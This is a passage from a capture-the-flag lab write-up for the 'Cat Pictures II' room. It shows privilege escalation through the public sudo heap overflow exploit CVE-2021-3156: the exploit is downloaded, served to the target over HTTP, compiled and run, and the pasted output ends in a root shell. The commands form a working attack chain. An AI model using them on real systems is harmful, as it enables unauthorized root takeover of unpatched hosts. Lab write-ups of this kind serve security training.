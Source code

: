   ```
- [This exploit](https://www.exploit-db.com/exploits/47502) wont work since it requires password that we don't have but [this one](https://github.com/blasty/CVE-2021-3156.git) will work.

- Exploitation is pretty simple. Clone the repo, convert it and upload it to target machine. On target machine extract the .tar file and build the exploit by following commands from GitHub.

  ```
  $ git clone https://github.com/blasty/CVE-2021-3156.git
  $ tar -cvf exploit.tar CVE-2021-3156
  $ python3 -m http.server 80

  bismuth@catpictures-ii:~$ wget http://[YOUR-THM-IP]:80/exploit.tar
  bismuth@catpictures-ii:~$ tar xopf exploit.tar
  bismuth@catpictures-ii:~$ ls
  CVE-2021-3156  exploit.tar  flag2.txt  
  
  bismuth@catpictures-ii:~$ cd CVE-2021-3156/
  bismuth@catpictures-ii:~/CVE-2021-3156$ ls
  brute.sh  hax.c  lib.c  Makefile  README.md

  bismuth@catpictures-ii:~/CVE-2021-3156$ make
  rm -rf libnss_X
  mkdir libnss_X
  gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
  gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
  ```
  
- We finished everything besides running the actual exploit so let's do it!

  ```
  bismuth@catpictures-ii:~/CVE-2021-3156$ ./sudo-hax-me-a-sandwich

  ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
  
    usage: ./sudo-hax-me-a-sandwich <target>
  
    available targets:
    ------------------------------------------------------------
      0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
      1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
      2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
    ------------------------------------------------------------
  
    manual mode:
      ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

  bismuth@catpictures-ii:~/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

  ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
  
  using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
  ** pray for your rootshell.. **
  [+] bl1ng bl1ng! We got it!
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
  ```

- Read the flag and that's it, bye!

---
  ```